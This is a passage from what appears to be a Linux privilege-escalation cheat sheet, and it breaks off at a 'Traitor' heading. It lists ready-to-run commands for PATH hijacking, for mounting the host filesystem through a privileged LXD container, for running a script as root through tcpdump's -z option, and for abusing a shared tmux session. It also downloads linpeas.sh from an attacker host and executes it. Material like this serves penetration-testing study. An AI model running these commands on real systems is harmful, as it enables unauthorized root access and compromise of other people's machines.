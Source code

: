 ## Advanced Exploitation Techniques

### PATH Manipulation

Add current directory to PATH for privilege escalation:

```bash
PATH=.:${PATH}
```

### LXD/LXC Containers

Exploit privileged LXD containers:

```bash
lxd init
lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine
lxc init alpine r00t -c security.privileged=true
lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true
lxc start r00t
```

### Tcpdump Privilege Escalation

Exploit tcpdump if SUID:

```bash
sudo /usr/sbin/tcpdump -ln -i ens192 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
```

### Shared Tmux Session

Create a shared tmux session for privilege escalation:

```bash
tmux -S /shareds new -s debugsess
```

## Automated Tools

### LinPEAS

Enumerate system misconfigurations:

```bash
wget http://<ATTACKER_IP>/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

> **Reference:** [LinPEAS GitHub](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

### Traitor
